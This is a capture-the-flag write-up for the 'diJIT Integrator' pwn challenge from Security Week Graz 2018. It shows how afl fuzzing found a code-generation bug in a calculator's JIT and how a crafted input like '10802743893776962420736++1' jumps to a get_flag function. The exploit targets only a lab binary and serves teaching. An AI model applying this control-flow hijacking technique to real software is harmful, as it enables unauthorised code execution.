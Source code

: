 ```yaml
---
layout: post
title: "Security Week Graz 2018: diJIT Integrator"
author: mickdermack
categories: writeup
tags: [cat/pwn, tool/afl, vuln/custom-jit]
---
```


* **Category:** pwn
* **Points:** 150
* **Description:**

> This calculator uses a just-in-time compiler (JIT) to compile the entered function into x86 machine code, allowing fast numeric integration of the function.
>
> What could possibly go wrong when compiling (untrusted) user input and executing it?
>
> Play around at hacklets3.attacking.systems 8006


## Writeup

This year, a few fuzzys were invited to the summer school of Graz Security Week.
One of the people from IAIK hosted a CTF with some really nice challenges, one of
which was the "diJIT Integrator".


## The Challenge

There was one file named "dijit-integrator" attached to the challenge. Running
`file` on it shows that it is a 64-bit x86 ELF binary which hasn't been stripped of
symbols:
```
dijit-plot: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, [...], not stripped
```

To find out which mitigations a binary uses, the `checksec` utility can be used,
which promptly revealed that the binary implements Stack Canaries, partial RELRO,
but not ASLR.

When run, the binary asks for an expression and some parameters, and then attempts
to integrate the expression numerically:
```
+-----------------------------------------------+
|     TU Instruments - Numeric Integration      |
+-----------------------------------------------+

Expression: 4*x
From [default: -10]: 
To [default: 10]: 
Step size [default: 1]: 
From: -10.000000 To: 10.000000
Step size: 1.000000

   _
  / ' 10.000000
  |
  |
  |   4*x dx = -40.000000
  |
  |
._/ -10.000000
```


## The JIT

The program implements a Just-in-Time compiler (JIT) for compiling the arithmetic
expression into x86 machine code, which could potentially run much faster than
repeatedly interpreting the expression.

The JIT uses the Shunting Yard algorithm to convert the expression in infix notation
to a postfix form, which is then translated into x86 machine code, using the stack
as an operand stack. For example, the expression `20+x` is compiled into the
following x86 code:
```
   0x3f800000:	pushq  $0x41a00000
   0x3f800005:	push   %rcx
   0x3f800006:	pop    %rax
   0x3f800007:	mov    %eax,(%rbx)
   0x3f800009:	flds   (%rbx)
   0x3f80000b:	pop    %rax
   0x3f80000c:	mov    %eax,(%rbx)
   0x3f80000e:	flds   (%rbx)
   0x3f800010:	faddp  %st,%st(1)
   0x3f800012:	fstps  (%rbx)
   0x3f800014:	pushq  (%rbx)
   0x3f800016:	popq   (%rbx)
   0x3f800018:	retq
   0x3f800019:	retq
```

Because a flawless JIT would make for quite a boring challenge, the JIT contains a
bug.


## The Vulnerability

The [afl fuzzer](http://lcamtuf.coredump.cx/afl/) was used to search for inputs that
crash the program. It took only a few minutes to find the following exploitable bug.

If an expression with two consecutive operators, like `1//2` or `10++20`, is fed
into the JIT, code generation aborts after emitting a `push` of the first operand:
```
   0x3f800000:	pushq  $0x41200000
   0x3f800005:	retq
   0x3f800006:	retq
```

`0x41200000` is the floating point number 10, interpreted as an integer. Because the
number is read from the user and the JIT always emits at least one return
instruction at the end, this can be exploited to jump to an arbitrary address.


## The Attack

Conveniently, the binary contains a `get_flag` function which, when run, outputs the
flag. Its address fits neatly into a 32-bit variable, so it is possible to encode it
as a floating-point number. Python's `struct.pack` and `struct.unpack` can be used
to for that purpose:
```
In [1]: from struct import pack, unpack

In [2]: f = unpack("f", pack("i", 0x6412678C))[0]

In [3]: "{:22f}".format(f)
Out[3]: '10802743893776962420736.000000'
```

Indeed, when an expression like `10802743893776962420736++1` is input, we get the
flag:
```
+-----------------------------------------------+
|     TU Instruments - Numeric Integration      |
+-----------------------------------------------+

Expression: 10802743893776962420736++1
From [default: -10]: 
To [default: 10]: 
Step size [default: 1]: 
From: -10.000000 To: 10.000000
{M4TH_R0CKS}
```
